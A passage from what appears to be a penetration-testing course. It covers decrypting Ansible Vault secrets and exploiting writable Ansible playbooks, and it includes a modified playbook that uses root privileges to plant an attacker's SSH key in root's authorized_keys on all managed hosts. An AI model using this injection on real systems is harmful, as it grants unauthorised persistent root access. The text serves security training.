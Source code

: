 > Listing 42 - Decrypted the original encrypted password

Decrypting encrypted files (as opposed to strings) is essentially the same process, since files are encrypted using the same encryption scheme.

1

(Red Hat, Inc., 2020), [https://docs.ansible.com/ansible/latest/user_guide/vault.html](https://docs.ansible.com/ansible/latest/user_guide/vault.html) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5410-1)

### 17.2.6. Weak Permissions on Ansible Playbooks

Another option we have at our disposal for exploiting Ansible environments is to take advantage of playbooks that we have write access to.

If the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.

In the controller VM, the playbook /opt/playbooks/getinfowritable.yaml has lax permissions, allowing anyone within the "ansible" group to write to it.

In this particular scenario, we assume we have compromised the _bystander_ account, which is in the "ansible" group. Because of this, the user has write access to the playbooks folder through group permissions. If we log in to the controller as _bystander_, we can edit the getinfowritable.yaml playbook.

Let's modify the file by adding few tasks to it.

```
---
- name: Get system info
  hosts: all
  gather_facts: true
  become: yes
  tasks:
    - name: Display info
      debug:
          msg: "The hostname is {{ ansible_hostname }} and the OS is {{ ansible_distribution }}"

    - name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
